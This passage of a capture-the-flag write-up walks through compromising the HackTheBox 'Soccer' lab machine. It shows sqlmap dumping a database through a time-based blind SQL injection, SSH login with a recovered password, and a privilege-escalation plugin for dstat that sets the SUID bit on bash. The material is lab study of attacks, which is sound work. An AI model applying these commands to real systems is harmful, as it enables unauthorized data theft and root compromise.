 
```console
-─$ python3 soccer.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
```
In another console run sqlmap with ```sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump-all --batch --time-sec 10```

It takes awhile and I ran into alot of issues. Likely from all the other players on the same machine and the resets happening.

If you are having trouble just run it a few times until it works.

```console
[14:53:33] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 98 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 7135 FROM (SELECT(SLEEP(5)))AeFX)
```

PlayerOftheMatch2022

```console
└─$ ssh player@soccer.htb              
The authenticity of host 'soccer.htb (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Last login: Fri Dec 23 20:54:10 2022 from 10.10.14.111
-bash-5.0$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```
```console
-bash-5.0$ cat user.txt
24cf****************************
```
Running linpeas does reveal dstat which is almost the same as sudo.

```console
player@soccer:~$ ls -la /usr/bin/dstat 
-rwxr-xr-x 1 root root 97762 Aug  4  2019 /usr/bin/dstat
```
```console
player@soccer:~$ cat dstat_exploit.py 
import os

os.system('chmod +s /usr/bin/bash')
```

```console
player@soccer:~$ cp dstat_exploit.py /usr/local/share/dstat/
player@soccer:~$ ls -la /usr/local/share/dstat/
total 12
drwxrwx--- 2 root   player 4096 Dec 23 21:39 .
drwxr-xr-x 6 root   root   4096 Nov 17 09:16 ..
-rw-rw-r-- 1 player player   47 Dec 23 21:39 dstat_exploit.py
player@soccer:~$ dstat --list | grep exploit
        exploit
```
